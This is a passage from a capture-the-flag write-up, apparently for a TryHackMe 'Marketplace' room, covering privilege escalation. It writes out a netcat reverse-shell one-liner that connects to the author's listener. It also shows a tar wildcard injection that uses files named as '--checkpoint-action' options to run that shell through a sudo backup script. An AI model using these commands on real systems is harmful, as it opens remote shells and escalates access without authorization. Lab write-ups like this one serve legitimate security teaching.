 I couldn't find how to upgrade permissions. When I started researching, I found a way. Let's try.

First I go to [Pentestmonkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). And for netcat, I choose:

![nc](/assets/img/tryhackme/marketplace/nc.png)

```
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Now I'm setting up a `netcat` listener on my own machine.

```
nc -nlvp 5555
```

Then I run the following codes in order.

```
$ cd /opt/backups
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.86.168 5555 >/tmp/f" > shell.sh
$ echo "" > "--checkpoint-action=exec=sh shell.sh"
$ echo "" > --checkpoint=1
$ chmod 777 backup.tar shell.sh
$ sudo -u michael ./backup.sh
```

![backups](/assets/img/tryhackme/marketplace/backups.png)

